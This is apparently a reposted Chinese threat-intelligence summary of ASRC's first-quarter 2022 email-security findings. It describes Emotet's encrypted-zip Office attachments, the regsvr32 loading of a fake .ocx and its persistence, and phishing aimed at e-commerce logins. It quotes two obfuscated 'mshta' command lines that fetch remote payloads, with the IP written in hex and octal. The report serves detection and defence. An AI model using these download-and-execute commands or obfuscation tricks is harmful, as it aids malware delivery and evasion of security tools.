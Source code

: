 ## 对2022近三个季度的ASRC邮件安全报告总结

https://www.freebuf.com/

### 0x01 第一季度

转载于[ASRC 2022年第一季电子邮件安全观察 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/paper/332570.html)

2022第一季，所有企业都能明显感觉到的威胁邮件，即是Emotet的攻击。Emotet的攻击，使用了各种藏匿及混淆的手段，用以躲避防毒及网安防护软件的检测，而其中最重要的一个手段就是压缩加密。在传输附件前先经过「压缩加密」，这在过去的用途，多半是为了保护保密文件在传输过程中，不被传递路径的中间人取得或窥探的防护手段；而现在，却经常成为恶意软件用以躲避信息安全软件检测的保护伞。在滥用情况日趋恶化的情况下，也开始迫使企业开始重新思考是否改变保密数据的传递方式，而直接将邮件内的加密压缩文件视为可疑或威胁的来源。

ASRC 研究中心与守内安，分享在这一季观察到的几个特殊邮件案例：

**Emotet** **再度现身，以加密恶意附件躲避防御侦测**

虽然欧洲刑警组织（Europol）与其它8个国家的执法机构在2021年1月下旬，连手破获了Emotet僵尸网络，但新的Emotet服务器和恶意软件样本已于2021/11/14出现，并通过电子邮件大量散播。Emotet的垃圾邮件攻击行动所携带于邮件里的恶意Office文件多为xls、xlsx、xlsm、doc、docx、docm...等等，部分以zip加上密码的方式，躲避信息安全防御的侦测。当收件者不慎执行恶意Office文件内的宏，Office文件内纪录的 URL 列表即会被尝试下载，扩展名可能为 .ocx 文档，但实为 DLL 的文档。接着使用 regsvr/ 3/ 2.exe -s 指令，于收件者的 Windows 内执行 .ocx。

随后进行潜伏：将 .ocx 复制到用户目录下的「AppData\Local\随机目录名称」，并随机取名 xxxxxxx.yyy (x长度不定)，再将该 .ocx 删除。执行 C:\Windows\system32\regsvr 3 / 2.exe /s "C:\Users\用户名称AppData\Local\随机目录名称下的恶意文件，并通过 registry 设定开机执行。

较特别的是，用以隐匿恶意文件的连接，使用了多种手法躲避，例如：分别使用十六进制、八进制的方法，来存放远程服务器的IP地址，进而让 Emotet下载第2阶段的恶意软件，现行的信息安全防护系统很可能无法察觉情况。

以下为一个示例：

![img](https://image.3001.net/images/20220509/1652075358_6278ab5ef328f6556fac6.jpg!small)

使用十六进制搭配混淆手段，让许多URI格式的恶意指标侦测失灵

同一网址可表达为：

- 十进制格式: hxxp://185.7.214.7
- 十六进制格式: hxxp://0xb907d607
- 八进制格式: hxxp://0056.0151.0121.0114

以上格式，浏览器都可以解析。实际上在Office攻击文件中还搭配了混淆的手段，呈现为：

- cmd /c m^sh^t^a h^tt^p^:/^/[0x]b907d607/fer/fer.html
- cmd /c m^sh^t^a h^tt^p^:/^/0056[.]0151[.]0121[.]0114/c.html

这让许多URI格式的恶意指标侦测失灵。

![img](https://image.3001.net/images/20220509/1652075400_6278ab882f7f40d6bcc50.jpg!small)

以zip加上密码的方式，躲避信息安全防御工事的侦测

由于这一波的Emotet攻势，与2021第四季相比较，邮件中带有恶意Office文件的数量成长了近40%；邮件中带有恶意Zip文件，成长了近一倍。

**针对电商账号的钓鱼攻击**

在三月份，我们观察到针对特定电商的钓鱼邮件，这些钓鱼邮件主要诈骗的目标为电商平台的登入账号密码。在成功取得账户密码后，除了能利用电商进行一些虚假交易外，账号密码也可能被拿到其他的社群、电商、电子邮件登入入口尝试凭证填充 (Credential Stuffing) 攻击。钓鱼网站的域名都在近期申请，并利用三或四级域名并将电商品牌关键词包含在内，以获取收件人进一步的信任。

![img](https://image.3001.net/images/20220509/1652075485_6278abdd04587d98ee72a.jpg!small)
